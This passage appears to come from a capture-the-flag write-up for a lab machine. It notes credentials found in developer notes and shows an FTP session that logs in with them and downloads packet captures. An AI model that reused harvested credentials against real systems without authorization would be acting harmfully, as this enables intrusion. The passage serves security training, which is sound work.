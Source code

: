 The highlighted lines are VERY important, and we will see why:

## 2c - /dev1243224123123/devNotes37370.txt

![538c511109168d515e35550c65cb16a6](https://github.com/anthonyjsaab/thm-writeups/assets/56998706/b74d4937-6269-4ca2-b33b-5e11f30b5d38)


## 2d - What we know so far
- The team in charge of the target machine have a very bad security posture. They do claim to reuse credentials.
- The username "siemDev" paired with the password "california" might come in handy later.

# 3 - FTP
Trying out the set of credentials collected previously would lead to this:

```ftp
┌──(kali㉿kali)-[~]
└─$ ftp siemDev@10.10.23.36 37370
Connected to 10.10.23.36.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||52360|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06 13:55 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06 13:55 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06 14:06 siemHTTP2.pcapng
226 Directory send OK.
ftp> get siemFTP.pcapng
local: siemFTP.pcapng remote: siemFTP.pcapng
229 Entering Extended Passive Mode (|||40897|)
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |***********************|  7272      127.10 KiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:00 (42.47 KiB/s)
ftp> get siemHTTP1.pcapng
local: siemHTTP1.pcapng remote: siemHTTP1.pcapng
229 Entering Extended Passive Mode (|||35572|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |***********************|  1932 KiB  236.10 KiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:08 (233.24 KiB/s)
ftp> get siemHTTP2.pcapng
local: siemHTTP2.pcapng remote: siemHTTP2.pcapng
229 Entering Extended Passive Mode (|||35965|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |***********************|  1926 KiB  439.09 KiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:04 (427.56 KiB/s)
ftp> exit
221 Goodbye.
                
```
